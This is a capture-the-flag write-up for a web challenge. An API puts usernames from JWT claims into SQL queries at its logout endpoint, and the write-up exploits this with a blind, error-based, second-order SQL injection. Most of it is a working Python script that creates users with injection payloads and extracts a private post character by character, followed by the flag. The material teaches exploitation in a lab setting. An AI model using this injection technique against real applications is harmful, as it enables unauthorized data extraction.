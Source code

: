 ## Game Boy Advance

### Description

Thank you for your help!
We fixed it, and also stopped using a Redis database for handling tokens, SQL is more reliable.
Can you have a look, just to check that everything is secure now?

**Authors : algorab & Sto**

### Solution

Given the fact that we are told that the application now uses SQL to handle tokens, it seems that this is a good lead to investigate.
Considering the source code of the first version of the API, the application should then now use a SQL database for checking if tokens are expired, and for the `/logout` and the `/refresh` endpoints.
Another key information to notice is that the username is included in the JWT claims. This means that it could be used during the interactions with the database!

We can try to register with usernames that could trigger and error when used in an SQL query. In fact, the username `'` triggers an error when we try to logout. So we have our injection vector, and we can perform a blind error-based second order SQL injection!

It is possible to automate the process with a script:

```python
import requests
import string
import random

url = "http://localhost/api"

def create_user(username, mail="joe@dohn.net", password="password"):
    endpoint = "/register"
    r = requests.post(url+endpoint, json={"username": username, "mail": mail, "password": password})

def login(username, password="password"):
    endpoint = "/login"
    r = requests.post(url+endpoint, json={"username": username, "password": password})
    return r.json()

def logout(access_token):
    endpoint = "/logout"
    r = requests.get(url+endpoint, headers={"X-Access-Token": access_token})
    return r.status_code

alphabet = string.ascii_letters+string.digits+"_-.@$/{} "

payload_len = "' or if((select length(content) from posts where posts.is_private=1)={}, cast((select 'a') as int), 0) -- "

for i in range(1000):
    p = payload_len.format(str(i))
    username = random.randbytes(4).hex()+p
    create_user(username)
    access_token = login(username)["access_token"]
    if logout(access_token) == 500:
        length = i
        break

print(f"Found length: {length}")

payload = "' or if((select binary substring(content,{},1) from posts where is_private=1 limit 0,1)={}, cast((select 'a') as int), null) -- "
flag = ""

while len(flag) != length:
    for char in alphabet:
        p = payload.format(str(len(flag)+1),hex(ord(char)))
        username = random.randbytes(4).hex()+p
        create_user(username)
        access_token = login(username)["access_token"]
        if logout(access_token) == 500:
            flag += char

print(f"Flag: {flag}")
```

Regarding the structure of the database, we can assume that it is the same as for the first challenge, even if it could be possible to enumerate the tables and columns names quite easily following the same logic as for recovering the flag. 

After running the script, we can recover the flag.

### Flag

`N0PS{sQl_1nJ3c710n_1n_Jw7_cL41m5}`